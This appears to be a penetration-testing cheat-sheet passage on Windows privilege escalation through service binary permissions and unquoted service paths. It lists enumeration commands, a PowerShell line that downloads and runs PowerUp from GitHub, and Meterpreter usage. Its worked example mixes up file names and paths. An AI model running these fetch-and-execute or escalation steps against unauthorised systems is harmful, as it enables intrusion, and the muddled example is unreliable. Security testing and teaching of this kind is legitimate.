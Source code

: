 The Windows bullet-in `icacls` can be used to determine the `NTFS` permissions
on the services binary:

```
icacls <BINARY_PATH>

Get-ACL <BINARY_PATH | FOLDER_PATH> | Format-List
```

###### Unquoted service binary paths

When a service path is unquoted, the Service Manager will try to find the
service binary in the shortest path, moving up to the longest path until one
works.     
For example, for the path C:\TEST\Service Folder\binary.exe, the space
is treated as an optional path to explore for that service. The resolution
process will first look into C:\TEST\ for the Service.exe binary and, if it
exist, use it to start the service.  

Here is Windows’ chain of thought for the above example:

1. Are they asking me to run  
   "C:\TEST\Service.exe" Folder\binary.exe  
   No, it does not exist.

2. Are they asking me to run  
   "C:\TEST\Service Folder\Service_binary.exe"  
   Yes, it does exist.

In summary, a service is vulnerable if the path to the executable contains
spaces and is not wrapped in quote marks. Exploitation requires write
permissions to the path before the quote mark. Note that unquoted path
for services in `C:\Program Files` and `C:\Program Files (x86)` are usually
not exploitable as unprivileged user rarely have write access in the `C:\` root
directory or in the standard program directories.

In the above example, if an attacker has write privilege in C:\TEST\, he could
create a C:\Service.exe and escalate its privileges to the level of the account
that starts the service.

To find vulnerable services the `wmic` tool and the `Powershell` `PowerUp`
script can be used as well as a manual review of each service metadata using
`sc` queries:

```
# wmic
wmic service get PathName, StartMode | findstr /i /v "C:\\Windows\\" | findstr /i /v """
wmic service get PathName, StartMode | findstr /i /v """
wmic service get name.pathname,startmode | findstr /i /v """ | findstr /i /v "C:\\Windows\\"
wmic service get name.pathname,startmode | findstr /i /v """

Get-WmiObject -Class win32_service -Property PathName | Where-Object { $_.PathName -NotMatch "system32" -And $_.PathName -NotMatch '"' } | Ft PathName

# (PowerShell) PowerSploit's PowerUp Get-ServiceUnquoted
PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/Pow
erSploit/master/Privesc/PowerUp.ps1")
PS> Get-UnquotedService

meterpreter> load powershell
meterpreter> powershell_import <POWERUP_PS1_FILE_PATH>
meterpreter> powershell_execute Get-ServiceUnquoted
```
